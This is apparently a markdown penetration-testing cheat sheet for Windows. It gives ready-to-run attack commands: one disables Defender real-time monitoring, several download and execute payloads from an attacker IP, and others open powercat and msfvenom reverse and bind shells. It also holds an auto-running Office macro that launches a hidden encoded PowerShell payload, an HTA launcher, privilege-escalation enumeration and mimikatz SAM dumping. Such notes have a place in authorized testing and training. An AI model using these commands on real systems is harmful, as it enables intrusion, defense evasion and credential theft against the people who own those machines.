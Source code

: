 - Disable Defender
    - Set-MpPreference -DisableRealtimeMonitoring $true
- C compile to exe in linux `i686-w64-mingw32-gcc adduser.c -o adduser.exe`

# Windows file transfers
- Powershell
    -   `powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.10.10/wget.exe','C:\Windows\Temp\wget.exe')"`
    -   `iex(iwr http://10.10.10.10/shell.exe)`
- Recieve file with powercat(send file with nc) `powercat -c 10.10.10.10 -p 443 -i file.txt`
- Exe to Hex 
	- `exe2hex -x nc.exe -p nc.cmd` 
	- `powershell -Command "$h=Get-Content -readcount 0 -path './nc.hex';$l=$h[0].length;$b=New-Object byte[] ($l/2);$x=0;for ($i=0;$i -le $l- 1;$i+=2){$b[$x]=[byte]::Parse($h[0].Substring($i,2),[System.Globalization.NumberStyles ]::HexNumber);$x+=1};set-content -encoding byte 'nc.exe' -value $b;Remove-Item -force nc.hex;"`


# Windows shells
- Kali has nc.exe at /usr/share/windows-resources/binaries/nc.exe
- C# compile + run
    - `C:\windows\microsoft.net\framework64\v4.0.30319\csc.exe /t:exe /out:C:\windows\temp\rev.exe C:\windows\temp\rev.cs`
- Powershell 
    - [Invoke-PowerShellTcp.ps1](https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1)
    - [Powershell-OneLinerReverseShell](https://gist.githubusercontent.com/egre55/c058744a4240af6515eb32b2d33fbed3/raw/2c6e4a2d6fd72ba0f103cce2afa3b492e347edc2/powershell_reverse_shell.ps1)
    - [Environment]::Is64BitProcess
    - `cat shell.ps1 | iconv -t utf-16le | base64 -w 0` encode a powershell command for windows format
    - powershell -ep bypass -noprofile -WindowStyle Hidden -e UYGfxemu...
- Powercat
    - Generate reverse shell `powercat -c 10.10.10.10 -p 443 -e cmd.exe -g`
    - Encoded reverse shell `powercat -c 10.11.0.4 -p 443 -e cmd.exe -ge`
    - Reverse shell `powercat -c 10.10.10.10 -p 443 -e cmd.exe`
    - Bind shell `powercat -l -p 443 -e cmd.exe`
    - Listener `powercat -l -p 443` 
- HTA (mshta.exe http://ip/rev.hta)
```
<html>
<body>
<script>
var c= 'cmd.exe'
new ActiveXObject('WScript.Shell').Run(c);
</script>
</body>
</html>
```
- VBS (MS office)
```
Sub AutoOpen() 
	MyMacro
End Sub
Sub Document_Open() 
	MyMacro
End Sub
Sub MyMacro()
	Dim Str As String
	Str = "powershell.exe -nop -w hidden -e JABzACAAPQAgAE4AZ"
	Str = Str + "QB3AC0ATwBiAGoAZQBjAHQAIABJAE8ALgBNAGUAbQBvAHIAeQB" 
	Str = Str + "TAH...6A"
CreateObject("Wscript.Shell").Run Str 
End Sub
```
- Msf
    -   Powershell `msfvenom -p cmd/windows/reverse_powershell lhost=10.10.10.10 lport=80`
    -   MSHTA
    	-	msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f hta-psh -o shell.hta   
        -   use exploit/windows/misc/hta_server
        -   mshta.exe hxxp://10.10.65.86:8080/VlHPpQahHBNkkeX.hta  

# Windows privilege escalation
- Tools - [Winpeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS) and [PowerUp](https://github.com/PowerShellEmpire/PowerTools/blob/master/PowerUp/PowerUp.ps1)
- [LOLbas](https://lolbas-project.github.io/)
- whoami
- net user
- `powershell ls env:`
- User member of which groups `net user USERNAME`
- Get hostname to understand functionality of box `hostname`
- Get system info `systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"`
- Running process `tasklist /SVC`
- Get Process statsus `wmic service where caption="Serviio" get name, caption, state, startmode`
- Start/Stop service `net start Serviio``net stop Serviio`
- Get networking info `ipconfig /all` `route print`
- Networking connections `netstat -ano`
- Firewall
	- current profile for firewall `netsh advfirewall show currentprofile`
	- Firewall rules `netsh advfirewall firewall show rule name=all`
- Scheduled Tasks `schtasks /query /fo LIST /v`
- Installed applications `wmic product get name, version, vendor`
- Security patches `wmic qfe get Caption, Description, HotFixID, InstalledOn`
- Writable files
	- `accesschk.exe -uws "Everyone" "C:\Program Files"`
	- `Get-ChildItem "C:\Program Files" - Recurse | Get-ACL | ?{$_.AccessToString -match "Everyone\sAllow\s\sModify"}`
- File permissions with Icacls
	- `icacls "C:\Program Files\Serviio\bin\ServiioService.exe"`
	- F M RX R W = Full Modify Read&Execute Read-only Write-only
- Unmounted disks `mountvol`
- Windows Drivers
	- `driverquery /v` searchsploit the driver name
	- `driverquery.exe /v /fo csv | ConvertFrom-CSV | Select-Object 'Display Name', 'Start Mode', Path`
	- `Get-WmiObject Win32_PnPSignedDriver | Select-Object DeviceName, DriverVersion, Manufacturer | Where-Object {$_.DeviceName -like "*VMware*"}`
- Auto elevate `reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer` `reg queryHKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\Installer`
- Get intigrity of session(High/Medium/Low in bottom of o/p) `whoami /groups`
- Run as diffrent user `powershell.exe Start-Process cmd.exe -Verb runAs`
- whoami /priv
	- SeShutdownPrivilege = We can restart `shutdown /r /t 0`
	- SeImpersonatePrivilege on Windows 10 and Server 2016/2019 
		- [PrintSpoofer](https://github.com/itm4n/PrintSpoofer)
		- [https://github.com/Genetic-Malware/Ebowla](https://github.com/Genetic-Malware/Ebowla)
 
- Unquoted Service Paths `wmic service get name,displayname,pathname,startmode |findstr /i "auto" |findstr /i /v "c:\windows\\" |findstr /i /v """`
- 
### mimikatz.exe
- `privilege::debug` `token::elevate` 
- Dump SAM `lsadump::sam` 

### General windows security/protectcions
1. Resource
	- Security discriptors
		- Owner 
		- Group
		- ACLs
2. SRM checks
	- Intigrity level
	- Owner
	- ACL
3. Process
	- Access tokens
4. Kernel
	- Verification by security refrence monitor
